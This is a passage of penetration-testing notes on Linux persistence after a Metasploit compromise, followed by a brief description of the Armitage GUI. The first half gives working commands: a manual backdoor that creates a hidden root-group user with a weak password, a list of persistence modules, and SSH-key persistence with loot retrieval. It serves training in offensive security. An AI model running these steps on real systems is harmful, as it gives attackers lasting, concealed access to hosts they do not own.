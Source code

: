 Manual backdoor.

```bash
meterpreter> shell
/bin/bash -i
root@victim-1> useadd -m ftp -s /bin/bash
root@victim-1> passwd ftp  # password1234
root@victim-1> usermod -aG root ftp
root@victim-1> usermod -u 15 ftp
# CTRL+C
```

Backdoor modules :

* exploit/linux/local/apt\_package\_manager\_persistence
* exploit/linux/local/autostart\_persistence
* exploit/linux/local/bash\_profile\_persistence
* exploit/linux/local/cron\_persistence
* exploit/linux/local/rc\_local\_persistence
* exploit/linux/local/service\_persistence
* post/linux/manage/sshkey\_persistence
* exploit/linux/local/yum\_package\_manager\_persistence

```bash
msf6> use post/linux/manage/sshkey_persistence
msf6> set createsshfolder true
msf6> run

msf6> loot
msf6> cat /root/.msf4/loot/20230803140026_linuxpersistenc_192.163.200.3_id_rsa_226018.txt
```

Copy/paste the private SSH key in the attacker host and connect it through SSH.

### Armitage

* Armitage is a free Java based GUI front-end for the Metasploit Framework developed by Raphael Mudge and is used to simplify network discovery, exploitation and post exploitation.
* Armitage provides you with the following functionality :
  * Visualize targets
  * Automate port scanning
  * Automate exploitation
  * Automate post exploitation
* Armitage requires the MSF database and the Metasploit backend services to be enabled and running in order to function correctly.
* Armitage comes pre-packaged with Kali Linux and other penetration testing distribution.
